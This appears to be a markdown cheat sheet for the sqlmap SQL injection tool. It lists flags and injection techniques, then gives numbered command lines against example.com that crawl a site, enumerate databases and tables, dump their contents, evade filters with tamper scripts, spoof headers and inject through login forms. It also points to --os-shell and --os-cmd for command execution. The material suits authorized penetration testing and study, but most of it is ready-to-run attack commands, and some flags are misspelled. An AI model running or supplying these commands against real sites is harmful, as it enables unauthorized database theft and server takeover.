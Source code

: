 # SQLmap
 
# Overview 

- Techniques     |     -u        
- Crawl         |     --forms
- Enumeration   |     --data
- Batch         |     --headers
- Risk          |     --user-agent
- Level         |     --cookie
- Threads       |     --flush-session
- Verbosity     |     --output-dir
- Proxy         |     --tamper
- SQL Injection Via Burp-Suite

# Techniques 

* B: Boolean-based blind
* E: Error-based
* U: Union query-based
* S: Stacked queries 
* T: Time-based blind
* Q: Inline queries 
   --technique-"B"

# Crawl

* Depth 1: http://www.example.com/news
* Depth 2: http://www.example.com/news/newest/
* Depth 3: http://www.example.com/news/newest/terror/
* Depth 4: http://www.example.com/news/newest/terror/country/
     --crawl 3
     
# Verbosity
* 0: show only python tracebacks, error and critical messages.
* 1: show also information and warning messages.
* 2: show also debug messages.
* 3: show also payloads injected.
* 4: show also HTTP requests.
* 5: show also HTTP responses'headers.
* 6: show also HTTP responses'page content
     
# Kali linux   ( command ) 

1.  sqlmap -u http://www.example.com/ --crawl 2 
2.  sqlmap -u http://www.example.com/ --crawl 3 --batch 
3.  sqlmap -u http://www.example.com/ --crawl 3 --technigue="U"                ( U = union )
4.  sqlmap -u http://www.example.com/ --crawl 2 --batch --threads 5            ( 1 to 10 )
5.  sqlmap -u http://www.example.com/ --crawl 2 --batch --risk 2               ( 1 to 3 )
6.  sqlmap -u http://www.example.com/ --crawl 2 --batch --level 1              ( 1 to 5 )
7.  sqlmap -u http://www.example.com/ --crawl 3 --batch -v 4                   ( 0 to 6 )
8.  sqlmap -u http://www.example.com/listproducts.php?cat=? --current-user --current-db --hostname --batch     ( vulnerable website link )
9.  sqlmap -u http://www.example.com/listproducts.php?cat=? --dbs              ( all data base details )
10. sqlmap -u http://www.example.com/listproducts.php?cat=? -D ( avl. database name ) --tables 
11. sqlmap -u http://www.example.com/listproducts.php?cat=? -D ( avl. database name ) -T ( avl. tables name ) --dump
12. sqlmap -u http://www.example.com/listproducts.php?cat=? -D ( avl. database name ) -T ( avl. tables name ) --columns 
13. sqlmap -u http://www.example.com/listproducts.php?cat=? -D ( avl. database name ) --dump-all
14. sqlmap -u http://www.example.com/ --crawl 2 --output-dir="home/ghost/desktop/sql/" --batch
15. sqlmap -u http://www.example.com/ --crawl 2 --headers="Referer:abc.com" -v 4 --batch
16. sqlmap -u http://www.example.com/ --crawl 2 --user-agent="GECKO_CHROME" -v 4 --batch
17. sqlmap -u http://www.example.com/ --crawl 2 --mobile -v 4 
18. sqlmap --list-tempers
19. sqlmap -u http://www.example.com/ --crawl 2 --tamper=base64encode -v 3 --batch

# BRUTE FORCE LOGIN PAGE
* first we need url of login page 
* than we need username && password && login we need to find the value of username , password , login [ by using inspect ].
* for eg username value is going with uname && password value is going with pass && login value is going with submit.
* also we need to check the username && password && login case value is going with userinfo.php 
* sqlmap -u http://www.example.com/login.php --forms         (next step first cat the sql save data)
* sqlmap -u http://www.example.com/userinfo.php --data="uname=abc&pass=abc&login=submit" --dbs

# PROXY
* sqlmap -u http://www.example.com/ --crawl 2 --proxy="127.0.0.1:8080"      ( then go to burp suite )

# Highlights
* --cookie
* --flush-session
* --comment
* --os-shell
* --os-cmd














